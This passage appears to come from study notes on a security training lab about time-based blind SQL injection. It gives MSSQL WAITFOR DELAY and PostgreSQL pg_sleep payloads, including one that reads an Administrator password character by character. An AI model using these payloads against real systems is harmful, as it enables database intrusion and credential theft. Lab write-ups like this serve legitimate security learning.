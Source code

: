 ```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

* The first of these inputs does not trigger a delay, because the condition `1=2` is false.
* The second input triggers a delay of 10 seconds, because the condition `1=1` is true.

```
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

### Lab: Blind SQL injection with time delays and information retrieval

We need to be aware of the different versions for the time delays:

<figure><img src="../../.gitbook/assets/image (844).png" alt=""><figcaption></figcaption></figure>

This query worked for the injection:

```
'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END-- 
#OR
';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```
